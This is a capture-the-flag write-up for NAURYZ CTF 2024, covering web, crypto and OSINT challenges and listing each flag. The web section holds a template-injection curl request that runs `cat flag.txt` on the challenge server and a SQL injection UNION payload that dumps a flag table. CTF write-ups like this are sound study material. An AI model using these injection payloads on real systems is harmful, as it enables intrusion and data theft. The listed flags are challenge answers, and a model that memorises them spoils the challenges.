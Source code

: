 # NAURYZ CTF 2024 Write-up

![image](https://github.com/zer00d4y/writeups/assets/128820441/48273d52-3cc4-448c-b409-f2fcba34b0af)

## WEB

### Asena - WEB

![image](https://github.com/zer00d4y/writeups/assets/128820441/2bde51ec-c7e1-4b52-b662-aaa89ebfb436)

SSTI vulnerability

    curl 'http://185.22.64.121:1337/' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://185.22.64.121:1337/' -H 'Origin: http://185.22.64.121:1337' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'sec-ch-ua-platform: "Windows"' -H 'sec-ch-ua: "Google Chrome";v="118", "Chromium";v="118", "Not=A?Brand";v="24"' -H 'sec-ch-ua-mobile: ?0' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw $'quantity=5\n%3C%25=%20%60cat%20flag.txt%60%20%25%3E'

![image](https://github.com/zer00d4y/writeups/assets/128820441/a045aa22-06b5-42d4-856d-0a19543a8ca1)

FLAG:

    nrzCTF{1_9RE3t_YOU_d3sCEnDAn7_OF_Asen@}

### Horse Shop 1 - WEB

![image](https://github.com/zer00d4y/writeups/assets/128820441/2c40eb11-8cd3-469f-8787-8ddf147f7237)

SQL injection, payload `price=' union select 0,1,2,flag,5,6,7 from flag-- -&age=&color=&breed=`

![image](https://github.com/zer00d4y/writeups/assets/128820441/bac89fec-4945-4685-956b-87782c818a0e)

![image](https://github.com/zer00d4y/writeups/assets/128820441/f1f96776-2b8f-48f0-918e-425ff893481e)

FLAG:

    nrzCTF{h0r5e_sh0p_cla55ic_sql1}

### Aldarkose - WEB

Write the format of the flag `nrzCTF{}`

![image](https://github.com/zer00d4y/writeups/assets/128820441/dbada843-c6a2-4a60-b2f1-2915749cd093)

FLAG:

    nrzCTF{t3mpl4t3_by_4ld4r_k0s3_320948u239}

# Crypto

### Weird Encoding - Crypto

![image](https://github.com/zer00d4y/writeups/assets/128820441/85a5f236-f8df-4395-b439-ce0f513e69e9)

It's a spiral cipher, just use the online decoder at  https://www.dcode.fr/spiral-cipher

![image](https://github.com/zer00d4y/writeups/assets/128820441/8b34eeb3-2e51-4f6b-b72e-939338b30639)

FLAG:

    nrzCTF{5p1_R@l_3nC0_d1nG}

# OSINT

### Ganegabla - OSINT

Find Ganegabla's YouTube channel

![image](https://github.com/zer00d4y/writeups/assets/128820441/7170a811-6efd-42ca-a85d-4417b3e486b8)

`nrzCTF{y0u_` `tub3_`

![image](https://github.com/zer00d4y/writeups/assets/128820441/7733dd93-7f46-4729-b6c9-a12d4a0e616f)

`0s1nt_`

![image](https://github.com/zer00d4y/writeups/assets/128820441/88580224-44e8-48f9-a824-cdcd9c76ebf3)

`t4sk}`

![image](https://github.com/zer00d4y/writeups/assets/128820441/5e4cec51-ef22-4d0a-9f21-a10d50eaab82)

FLAG:

    nrzCTF{y0u_tub3_0s1nt_t4sk}

